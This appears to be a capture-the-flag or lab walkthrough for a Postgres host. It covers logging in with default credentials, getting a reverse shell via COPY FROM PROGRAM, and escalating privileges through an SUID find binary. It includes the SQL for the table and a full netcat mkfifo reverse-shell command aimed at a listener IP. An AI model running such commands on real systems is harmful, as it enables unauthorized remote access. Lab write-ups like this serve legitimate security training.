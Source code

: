 ```yaml
---
tags:
- postgres
- port5437
- suid-find
created: 2024-04-01
lastmod: 2024-04-01
published: 2024-04-01
image:
description: 
---
```


>[!code]- Find open ports (21, 22, 80, 5437)
>![Pasted image 20241002060947](Images/Pasted%20image%2020241002060947.png)
#### local
###### Postgres (port 5437)

>[!code]- Access database with default credentials
>###### Connect
>![Pasted image 20241002062014](Images/Pasted%20image%2020241002062014.png)
>###### Postgres user is superuser
>![Pasted image 20241002062333](Images/Pasted%20image%2020241002062333.png)
>###### Use superuser privileges to list arbitrary file contents
>(`\l`) list available databases 
>(`\c`) connect to postgres database first
>
>![Pasted image 20241002063524](Images/Pasted%20image%2020241002063524.png)

>[!code]- Obtain a reverse shell via Postgres
>_(Supported versions 9.3 – 14)_
>###### As per [this guide](https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767), create a table
>![Pasted image 20241002064535](Images/Pasted%20image%2020241002064535.png)
>```sql
>CREATE TABLE shell(output text);
>```
>###### Execute reverse shell (first one didn't work)
>![Pasted image 20241002064727](Images/Pasted%20image%2020241002064727.png)
>```sql
>COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.240 80 >/tmp/f';
>```
>###### Catch on the listener
>![Pasted image 20241002064752](Images/Pasted%20image%2020241002064752.png)

>[!success]- Obtain local.txt
>![Pasted image 20241002064849](Images/Pasted%20image%2020241002064849.png)
#### root

>[!code]- SUID bit set on find binary
>###### Find binaries with SUID bit set
>![Pasted image 20241028061908](Images/Pasted%20image%2020241028061908.png)
>###### Exploit find binary
>![Pasted image 20241028061947](Images/Pasted%20image%2020241028061947.png)

>[!success]- Obtain proof.txt
>![Pasted image 20241028062028](Images/Pasted%20image%2020241028062028.png)

